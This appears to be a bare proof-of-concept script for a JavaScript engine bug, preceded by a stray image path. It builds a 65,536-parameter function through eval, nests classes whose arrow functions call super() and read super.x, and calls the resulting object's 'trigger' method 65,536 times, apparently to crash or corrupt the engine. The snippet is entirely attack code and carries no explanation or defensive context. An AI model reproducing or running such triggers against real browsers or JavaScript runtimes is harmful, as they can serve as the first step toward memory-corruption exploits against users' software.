 
let args = new Array(0x10000);
args.fill();
args = args.map((_, i) => 'a' + i).join(', ');

let gun = eval(`(function () {
    class A {

    }

    class B extends A {
        constructor(${args}) {
            () => {
                ${args};
                super();
            };

            class C {
                constructor() {
                }

                trigger() {
                    (() => {
                        super.x;
                    })();
                }
            }

            return new C();
        }
    }

    return new B();
})()`);

for (let i = 0; i < 0x10000; i++)
    gun.trigger();

